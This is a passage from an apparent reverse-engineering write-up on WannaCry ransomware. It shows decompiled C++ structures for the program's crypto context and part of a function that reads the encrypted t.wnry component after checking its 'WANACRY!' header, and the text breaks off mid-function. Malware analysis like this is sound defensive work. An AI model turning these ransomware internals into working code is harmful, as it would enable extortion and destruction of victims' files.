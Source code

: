 There are two more data structures inside CProgram and CPeBuilder, first look at CProgram:

```C++
class CProgram
{
  void *vtable;
  CWnCryptContext pWnCryptContext1;
  CWnCryptContext pWnCryptContext2;
  CWnAES AES;
  LPCSTR *lpBuffer1M_1;
  LPCSTR *lpBuffer1M_2;
  int lpBufferUsed_2;
  int lpBufferUsed_1;
};
```

```C++
struct CWnCryptContext
{
  void *vtable;
  HCRYPTPROV phProv;
  HCRYPTKEY hKey1;
  HCRYPTKEY hKey2;
  CRITICAL_SECTION CriticalSection;
};
```

The program first constructs a CProgram object and initializes the internal CWnCryptContext with the CWnAES member, where Microsoft's CWnCryptContext uses a CSP that is the "Microsoft Enhanced RSA and AES Cryptographic Provider" algorithm, that is RSA and the RSA secret key is read from the program's data segment The

```C++
void *__thiscall CProgram::GetPeFile(CProgram *this, LPCSTR lpFileName, int *nRet)
{
  int pRbuff; 
  HANDLE hFile; 
  size_t Size; 
  int blank; 
  char lpBuffer[8] = {0}; 
  __int64 dwFileSize; 
  char lpPlaintext; 
  DWORD nRetSize; 
  int pBuffer; 
  LARGE_INTEGER FileSize; 
  int lpNumberOfBytesRead; 
  CPPEH_RECORD ms_exc; 

  pRbuff = 0;
  nRetSize = 0;
  Size = 0;
  blank = 0;
  lpNumberOfBytesRead = 0;
  ms_exc.registration.TryLevel = 0;
  hFile = CreateFileA(lpFileName, GENERIC_READ, FILE_SHARE_READ, 0, OPEN_EXISTING, 0, 0);// t.wnry
  if ( hFile != INVALID_HANDLE_VALUE )
  {
    GetFileSizeEx(hFile, &FileSize);
    if ( FileSize.QuadPart <= 0x6400000 )       // 100 MB
    {
      if ( fpReadFile(hFile, lpBuffer, 8, &lpNumberOfBytesRead, 0) )
      {
        if ( !memcmp(lpBuffer, aWanacry, 8u) )  // WANACRY!
        {
          if ( fpReadFile(hFile, &Size, 4, &lpNumberOfBytesRead, 0) )
          {
```